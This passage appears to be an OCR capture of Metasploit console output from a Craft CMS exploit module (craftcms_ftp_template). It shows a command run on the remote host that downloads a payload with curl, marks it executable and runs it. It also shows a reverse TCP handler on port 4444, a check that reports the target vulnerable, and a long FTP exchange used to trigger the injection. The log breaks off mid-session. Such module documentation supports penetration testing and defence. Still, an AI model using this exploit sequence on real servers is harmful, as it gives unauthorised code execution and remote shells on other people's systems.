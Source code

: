 ```bash


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/craftcms_ftp_template) > exploit
[*] Command to run on remote host: curl -so ./jlVAsfWu http://192.168.1.36:8081/LoPlnjEpeOexZNVppn6cAA;chmod +x ./jlVAsfWu;./jlVAsfWu&
[*] Exploit running as background job 57.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/craftcms_ftp_template) >
[*] Fetch handler listening on 192.168.1.36:8081
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Performing vulnerability check...
[+] The target is vulnerable.
[*] Starting FTP service...
[*] Started service listener on 192.168.1.36:9090
[*] FTP server started on 192.168.1.36:9090
[*] Sending HTTP request to trigger the payload...
[*] Triggering HTTP request...
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 250 "/default" is current directory.
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 550 /default is not retrievable.
[*] on_client_command_mdtm
[*] -> 550 /default is not retrievable.
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 550 Not a directory
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 213 154
[*] on_client_command_mdtm
[*] -> 213 20250110170738
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 550 Not a directory
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 213 154
[*] on_client_command_mdtm
[*] -> 213 20250110170738
[*] -> 220 FTP Server Ready
[*] on_client_command_user
```